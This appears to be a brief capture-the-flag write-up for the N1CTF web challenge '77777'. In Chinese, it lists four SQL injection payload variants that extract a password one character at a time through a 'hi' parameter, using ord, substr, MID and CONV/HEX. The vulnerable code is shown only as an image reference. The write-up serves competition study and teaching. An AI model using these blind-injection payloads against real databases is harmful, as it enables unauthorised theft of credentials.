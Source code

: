# 
## Challenge details
|       Event        | Challenge | Category | Points  |
|:-------------------|:----------|:---------|:-------:|
|       N1CTF        |    77777  |    Web   |   104   |

### Description
> "77777" is my girlfriend's nickname，have fun xdd:)
### Attachments
## Solution
网站中给出的核心代码为  
![](1.png)  
`hi=000 where ord(substr(password, 1, 1))>100`  
或者  
`hi=*CONV(HEX((SELECT MID(password,1,3))),16,10)`  
或者  
`hi= and mid(password,'+str(i)+',1) like "`  
或者  
`hi= *ord(substr(password,i,1)`  
## Link
